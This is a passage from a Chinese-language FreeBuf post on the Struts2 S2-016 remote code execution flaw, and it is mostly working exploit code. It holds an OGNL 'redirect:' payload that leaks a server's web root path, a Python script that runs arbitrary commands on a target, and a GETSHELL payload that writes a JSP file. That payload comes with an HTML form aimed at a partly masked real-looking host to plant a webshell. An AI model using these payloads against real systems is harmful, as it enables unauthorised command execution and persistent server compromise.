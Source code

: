 爆网站路径EXP，感谢h4ck0r提供：

?redirect%3A%24%7B%23req%3D%23context.get%28%27com.opensymphony.xwork2.dispatcher.HttpServletRequest%27%29%2C%23a%3D%23req.getSession%28%29%2C%23b%3D%23a.getServletContext%28%29%2C%23c%3D%23b.getRealPath%28%22%2F%22%29%2C%23matt%3D%23context.get%28%27com.opensymphony.xwork2.dispatcher.HttpServletResponse%27%29%2C%23matt.getWriter%28%29.println%28%23c%29%2C%23matt.getWriter%28%29.flush%28%29%2C%23matt.getWriter%28%29.close%28%29%7D

python执行任意命令，感谢h4ck0r提供

import urllib2,sys,re def get(url, data): string = url + "?" + data req = urllib2.Request("%s"%string) response = urllib2.urlopen(req).read().strip() print strip(response) def strip(str): tmp = str.strip() blank_line=re.compile('\x00') tmp=blank_line.sub('',tmp) return tmp if __name__ == '__main__': url = sys.argv[1] cmd = sys.argv[2] cmd1 = sys.argv[3] attack="redirect:${%%23a%%3d(new%%20java.lang.ProcessBuilder(new%%20java.lang.String[]{'%s','%s'})).start(),%%23b%%3d%%23a.getInputStream(),%%23c%%3dnew%%20java.io.InputStreamReader(%%23b),%%23d%%3dnew%%20java.io.BufferedReader(%%23c),%%23e%%3dnew%%20char[50000],%%23d.read(%%23e),%%23matt%%3d%%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse'),%%23matt.getWriter().println(%%23e),%%23matt.getWriter().flush(),%%23matt.getWriter().close()}"%(cmd,cmd1) get(url,attack)

GETSHELL EXP，感谢coffee提供：

?redirect:${ %23req%3d%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletRequest'), %23p%3d(%23req.getRealPath(%22/%22)%2b%22test.jsp%22).replaceAll("\\\\", "/"), new+java.io.BufferedWriter(new+java.io.FileWriter(%23p)).append(%23req.getParameter(%22c%22)).close() }&c=%3c%25if(request.getParameter(%22f%22)!%3dnull)(new+java.io.FileOutputStream(application.getRealPath(%22%2f%22)%2brequest.getParameter(%22f%

然后用以下代码写shell:

<form action="http://www.***.jp/acdap/test.jsp?f=1.jsp&quot; method="post"> <textarea >code</textarea> <input type=submit value="提交"> </form>

上前目录生成1.jsp

5 1 您已评价！

### ![]() **如文中未特别声明转载请注明出自:** [FreebuF.COM](http://www.freebuf.com/)

![]() [1]( "累计分享1次")
![Favorite](http://www.freebuf.com/buf/plugins/wp-favorite-posts/img/heart.png "Favorite")![Loading](http://www.freebuf.com/buf/plugins/wp-favorite-posts/img/loading.gif "Loading")[收藏该文](http://www.freebuf.com/vuls/?wpfpaction=add&postid=11220 "收藏该文")

### 相关文章

* [[更新]Struts2再爆远程代码执行漏洞（S2-016）](http://www.freebuf.com/vuls/11220.html)

**49**条评论 **28626**人已围观
* [Android ICS adb调试工具系统还原目录遍历漏洞（可提权）](http://www.freebuf.com/vuls/10697.html)

**6**条评论 **8306**人已围观
* [美国VPS管理系统SolusVM 1.13.03 SQL注入漏洞（含exp）](http://www.freebuf.com/vuls/10611.html)

**12**条评论 **24962**人已围观
* [[最新]Plesk主机管理软件远程get shell 0day](http://www.freebuf.com/vuls/10291.html)

